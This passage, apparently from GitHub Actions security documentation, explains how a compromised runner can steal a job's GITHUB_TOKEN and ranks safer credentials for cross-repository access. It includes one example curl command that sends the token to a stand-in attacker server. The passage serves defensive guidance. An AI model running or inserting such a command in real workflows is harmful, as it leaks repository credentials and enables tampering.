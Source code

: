 An attacker may be able to steal a job's `GITHUB_TOKEN`. GitHub Actions automatically provides this token with scoped permissions limited to the repository running the workflow. The token expires once the job completes and cannot be reused afterward.

However, a compromised runner can be used to exfiltrate the token immediately during the job’s execution. An attacker can automate a request to a server they control to capture the token before it expires. For example:

```yml
curl http://example.com?token=$GITHUB_TOKEN
```

#### Modification of repository contents

If a `GITHUB_TOKEN` is stolen, an attacker-controlled system can use it to call the GitHub API and modify repository content.

Applying the principle of least privilege to the token’s permissions helps reduce this risk. Limit the token's access to only what is necessary for the job.

### Managing cross-repository access

When workflows require access to multiple repositories, it's important to choose credentials that minimize security risks. Some of the recommended options listed from most to least preferred include:

1. **`GITHUB_TOKEN`**

GitHub automatically generates the `GITHUB_TOKEN` for each workflow run. It is scoped to the single repository that triggers the workflow and provides permissions equivalent to a write-access user on that repository. The token is created at the start of each job and expires when the job completes.

Use the `GITHUB_TOKEN` whenever possible for secure and scoped authentication.
For details, see [Automatic token authentication](https://docs.github.com/en/actions/security-for-github-actions/security-guides/automatic-token-authentication).

2. **Repository deploy key**

To clone or push using Git within workflows, use deploy keys that provide read or write access to a single repository.

However, deploy keys do not support access to GitHub's REST or GraphQL APIs. Use them only when API access is not required and Git access is sufficient.

3. **GitHub App tokens**

GitHub Apps offer fine-grained permissions and can be installed on selected repositories. You can create an internal GitHub App, install it on the necessary repositories, and authenticate as the app installation within your workflow to access those repositories.

This approach provides better access control and auditing compared to personal tokens.

4. **Personal access tokens (PATs)**

Avoid using classic personal access tokens in workflows. These tokens grant broad access across all personal and organizational repositories associated with the user, introducing significant risk. If the workflow runs in a repository with multiple contributors, all write-access users effectively inherit that token’s privileges.

If you must use a personal token, create a **fine-grained PAT** tied to a dedicated organizational account. Restrict its access to only the specific repositories required by the workflow.
Note: This approach is difficult to scale and is best avoided in favor of deploy keys or GitHub Apps.
